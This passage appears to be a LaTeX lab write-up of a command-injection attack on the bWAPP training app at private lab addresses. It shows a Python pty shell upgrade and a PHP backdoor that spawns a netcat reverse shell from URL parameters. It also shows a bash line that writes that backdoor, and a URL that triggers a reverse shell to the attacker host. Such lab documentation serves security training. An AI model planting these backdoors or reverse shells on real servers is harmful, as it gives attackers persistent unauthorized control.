 \documentclass{article}
\begin{document}
After the payload is send, we can see a new connection and we have access to the host terminal.
Because the host also has python installed, we can easily turn this into an interactive terminal running the command python -c "import pty; pty.spawn('/bin/bash')"
\ref{fig:inject-code}
\begin{figure}
    \centering
    \includegraphics[width=1\linewidth]{Figures/command-injection/inject-code.png}
    \caption{\label{fig:inject-code}The injected code}
\end{figure}

In case this vulnerability gets fixed, we can now install a backdoor into the server so we will still have access to it.
For this, we will insert a php script that gives a reverse shell.\ref{php:backdoor}

\begin{lstlisting}[language=php,caption={Backdoor Code},label=php:backdoor]
<?php
exec("nc " . $_GET["server"] . " " . $_GET["port"] . " -e /bin/bash");"
\end{lstlisting}

And we can write this backdoor using our reversed shell.
\begin{lstlisting}[language=bash,caption={Backdoor Code in bash},label=bash:backdoor]
echo "<?php
exec(\"nc \".\$_GET[\"server\"].\" \".\$_GET[\"port\"].\" -e /bin/bash\");"
\end{lstlisting}

We piped the command \ref{bash:backdoor} into the file inserted\_backdoor.php and now when we acces the url "http://10.0.2.4/bWAPP/inserted\_backdoor.php?server=10.0.2.15 \&port=4747",
the server will give us a reverse shell. \ref{fig:backdoor-installed}

\begin{figure}
    \centering
    \includegraphics[width=1\linewidth]{Figures/command-injection/backdoor-installed.png}
    \caption{\label{fig:backdoor-installed}How to connect to the server after the backdoor has installed}
\end{figure}
\end{document}

